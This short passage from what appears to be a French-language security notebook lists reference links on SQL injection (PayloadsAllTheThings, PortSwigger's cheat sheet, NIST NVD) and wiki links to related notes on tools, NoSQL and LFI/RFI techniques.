- PayloadsAllTheThings — SQL Injection : https://github.com/swisskyrepo/PayloadsAllTheThings
- PortSwigger SQLi cheat sheet : https://portswigger.net/web-security/sql-injection/cheat-sheet
- NIST NVD (CVE SQLi) : https://nvd.nist.gov/

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Injection SQL|💾 Injection SQL]] · [[Techniques/NoSQL|🍃 NoSQL]] · [[Techniques/LFI et RFI|📂 LFI / RFI]]
